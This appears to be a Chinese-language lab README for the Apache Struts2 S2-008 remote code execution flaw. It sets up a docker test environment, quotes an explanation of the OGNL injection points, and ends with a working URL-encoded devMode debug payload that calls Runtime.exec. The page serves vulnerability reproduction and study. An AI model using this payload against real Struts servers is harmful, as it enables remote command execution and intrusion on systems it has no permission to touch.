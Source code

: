 # S2-008 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1

漏洞详情: http://struts.apache.org/docs/s2-008.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

> S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

例如在 devMode 模式下直接添加参数`?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

```
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```